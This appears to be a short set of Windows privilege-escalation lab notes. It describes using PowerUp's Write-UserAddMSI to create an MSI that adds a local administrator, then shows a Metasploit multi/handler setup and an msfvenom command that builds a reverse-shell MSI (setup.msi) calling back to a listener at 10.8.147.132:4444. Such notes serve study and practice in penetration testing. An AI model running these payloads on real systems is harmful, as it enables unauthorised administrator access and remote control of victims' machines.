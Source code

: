 
Powerup script "Write-User AddMSI" creates file UserADD.msi that adds local administrator.

to check:

```
net localgroup administrators
```

or, you can create a msi file that launch reverse shell:

```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > set LHOST tun0
LHOST => 10.8.147.132
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.8.147.132:4444
```

```
root@kali:~/tcm/WindowsPrivEsc/AutoRun# msfvenom -p windows/meterpreter/reverse_tcp lhost=10.8.147.132 -f msi -o setup.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of msi file: 159744 bytes
Saved as: setup.msi
```
